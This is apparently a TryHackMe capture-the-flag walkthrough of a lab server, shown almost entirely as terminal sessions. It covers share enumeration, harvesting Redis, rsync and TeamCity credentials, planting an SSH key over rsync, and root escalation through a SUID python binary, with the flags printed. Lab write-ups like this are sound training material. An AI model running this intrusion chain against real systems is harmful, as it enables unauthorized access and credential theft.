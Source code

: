 ┌──(mikey㉿kali)-[~/rabbit]
└─$ nmap -sC -sV -p 1-1000 10.10.40.193
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-17 20:07 IST

PORT    STATE    SERVICE     VERSION
6/tcp   filtered unknown
22/tcp  open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
111/tcp open     rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      38138/udp   mountd
|   100005  1,2,3      38319/tcp   mountd
|   100005  1,2,3      38570/udp6  mountd
|   100005  1,2,3      40475/tcp6  mountd
|   100021  1,3,4      37650/udp   nlockmgr
|   100021  1,3,4      38649/tcp   nlockmgr
|   100021  1,3,4      45825/tcp6  nlockmgr
|   100021  1,3,4      60521/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp open     rsync       (protocol version 31)

# sudo smbclient -L 10.10.21.154
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        shares          Disk      VulnNet Business Shares
        IPC$            IPC       IPC Service (vulnnet-internal server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            
                        
smb: \temp\> ls
  .                                   D        0  Sat Feb  6 17:15:10 2021
  ..                                  D        0  Tue Feb  2 14:50:09 2021
  services.txt                        N       38  Sat Feb  6 17:15:09 2021


We get our first flag in services.txt 
┌──(mikey㉿kali)-[~/rabbit]
└─$ cat services.txt
 THM{0a09d51e488f5fa105d8d866a497440a}
        
┌──(mikey㉿kali)-[~/rabbit]
└─$ sudo showmount -e 10.10.21.154
Export list for 10.10.238.66:
/opt/conf *
    
┌──(mikey㉿kali)-[~/rabbit]
└─$ mount -t nfs 10.10.21.154:/opt  /tmp

            
┌──(mikey㉿kali)-[/tmp/opt/conf/redis]
└─$ cat redis.conf | grep -i password
requirepass "B65Hx562F@ggAZ@F"

┌──(mikey㉿kali)-[~/rabbit]
└─$ redis-cli -h 10.10.21.154 -a "B65Hx562F@ggAZ@F" 
10.10.21.154:6379> keys *
1) "internal flag"
2) "marketlist"
3) "tmp"
4) "int"
5) "authlist"
10.10.21.154:6379> get "internal flag"
"THM{ff8e518addbbddb74531a724236a8221}"



10.10.21.154:6379> get "authlist"
(error) WRONGTYPE Operation against a key holding the wrong kind of value
10.10.21.154:6379> lrange "authlist" 1 10
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="

┌──(mikey㉿kali)-[~/rabbit]
└─$echo QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg== | base64 -d
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
┌──(mikey㉿kali)-[~/rabbit]
└─$ rsync rsync://rsync-connect@10.10.65.34/files/sys-internal/user.txt /rsync/ 
Password: 

┌──(root㉿kali)-[/rsync]
└─# ls
user.txt
                                                                             
┌──(root㉿kali)-[/rsync]
└─# cat user.txt        
THM{da7c20696831f253e0afaca8b83c07ab}

┌──(mikey㉿kali)-[~/rabbit]
└─$ rsync authorized_keys rsync://rsync-connect@10.10.65.34/files/sys-internal/.ssh/ 
Password: 

┌──(root㉿kali)-[~mikey/internal]
└─# ssh -i rsa sys-internal@10.10.120.193 


sys-internal@vulnnet-internal:/TeamCity/conf$ ss -tulwn
Netid                    State                       Recv-Q                      Send-Q                                                 Local Address:Port                                            Peer Address:Port                     
                                      0.0.0.0:*                        
                                    0.0.0.0:*                        
                                              0.0.0.0:*                        
tcp                      LISTEN                      0                           1                                                 [::ffff:127.0.0.1]:8105                                                       *:*                        
tcp                      LISTEN                      0                           128                                                             [::]:41993                                                   [::]:*                        
tcp                      LISTEN                      0                           128                                                             [::]:55849                                                   [::]:*                        
tcp                      LISTEN                      0                           5                                                               [::]:873                                                     [::]:*                        
tcp                      LISTEN                      0                           128                                                            [::1]:6379                                                    [::]:*                        
tcp                      LISTEN                      0                           64                                                              [::]:41611                                                   [::]:*                        
tcp                      LISTEN                      0                           50                                                              [::]:139                                                     [::]:*                        
tcp                      LISTEN                      0                           100                                               [::ffff:127.0.0.1]:8111             
![](https://i.imgur.com/F5NJy36.png)

But it is not readable the only readable file is catalina so searching token inside it



![](https://i.imgur.com/ul3P4MG.png)
sys-internal@vulnnet-internal:/TeamCity/logs$ cat catalina.out | grep -i token
[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 1844220135994601530 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 1844220135994601530 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 1844220135994601530 (use empty username with the token as the password to access the server)




![](https://i.imgur.com/vn71jk3.png)

![](https://i.imgur.com/rlPv2Zl.png)
i set suid on python and using gtfobins i execute command 
to get root access.

![](https://i.imgur.com/Y2OS2cC.png)



bash-4.4# cat root.txt
THM{e8996faea46df09dba5676dd271c60bd}
          
                                            
